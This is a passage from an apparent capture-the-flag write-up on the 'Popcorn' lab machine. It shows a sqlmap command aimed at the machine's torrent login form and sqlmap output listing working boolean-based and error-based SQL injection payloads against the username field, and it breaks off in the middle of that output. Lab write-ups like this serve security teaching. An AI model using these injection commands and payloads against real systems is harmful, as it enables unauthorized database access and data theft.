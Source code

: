 Now I know for sure that we are using MySQL, if I can get a sql injection I can try and exploit the server with sqlmap.

back to the login page: http://10.10.10.6/torrent/login.php, viewing the source code for the form:

![inputs.png](/assets/images/KaliSetup/inputs.png)

I can pull out the 2 variables, username and password.
Using an attack proxy like ZAP I can follow the login process to failure and determine the POST method is used. This gives me the syntax:

{% highlight shell %}
sqlmap -u http://$POPCORN/torrent/login.php --data="username=pwnd&password=pwnd" --method POST --dbms MySQL --thread=5 --tables
{% endhighlight %}

quickly the tool comes back with

{% highlight plaintext %}
[INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
{% endhighlight %}

I up the level and risk to 1, but avoid following any redirects to get:

{% highlight plaintext %}
[INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable
{% endhighlight %}

I can work with this to manually exploit if needed, I let the tests and eventually after trying a few different interactive options get the following results:

{% highlight plaintext %}
sqlmap identified the following injection point(s) with a total of 380 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=pwnd' OR NOT 2740=2740#&password=pwnd
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=pwnd' AND (SELECT 8745 FROM(SELECT COUNT(*),CONCAT(0x716a786b71,(SELECT (ELT(8745=8745,1))),0x7162716a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- DGhR&password=pwnd
    Type: time-based blind
    Title: MySQL <= 5.0.11 AND time-based blind (heavy query)